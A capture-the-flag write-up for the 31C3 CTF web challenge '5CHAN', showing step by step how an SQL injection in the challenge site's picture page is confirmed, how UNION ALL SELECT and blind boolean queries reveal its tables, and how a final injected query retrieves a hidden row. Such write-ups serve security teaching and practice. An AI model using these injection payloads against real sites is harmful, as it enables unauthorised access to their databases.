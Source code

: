 ## 31C3 CTF - 5CHAN (Web 15)
##### 27-29/12/2014 (48hr)
___
### Description
5CHAN? never heard of this image board, but they have exactly what we need, 
the picture we're looking for is not for public, so can you get it?

http://188.40.18.89/

___
### Solution

First, we check for SQLi: http://188.40.18.89/?page=pic&id=0'
Yeah!

```
	Warning: mysqli_fetch_array() expects parameter 1 to be mysqli_result, boolean given 
	in /var/www/html/__pages/__pic.php on line 8
```

Try to guess columns:
```
	http://188.40.18.89/?page=pic&id=2 UNION ALL SELECT 0x61,0x61,0x61,0x61,0x61
```

Returns no error.

Now make a blind attack to get column and table names:
```
	http://188.40.18.89/?page=pic&id=(SELECT 1) --> return system of a dawn
	http://188.40.18.89/?page=pic&id=(SELECT 0) --> return nothing

	users   : id_user,username,password,level
	pictures: id, title, name,desc, level 
```
	
After that we can get that there are 2 tables: pictures and users. pictures table has 9
rows, where the 9th row contains the column. However the image is doesn't stored on the
table, so we have to get it from the URL:
```
	http://188.40.18.89/?page=pic&id=0 UNION ALL SELECT * FROM pictures WHERE id=9 -- x
```
___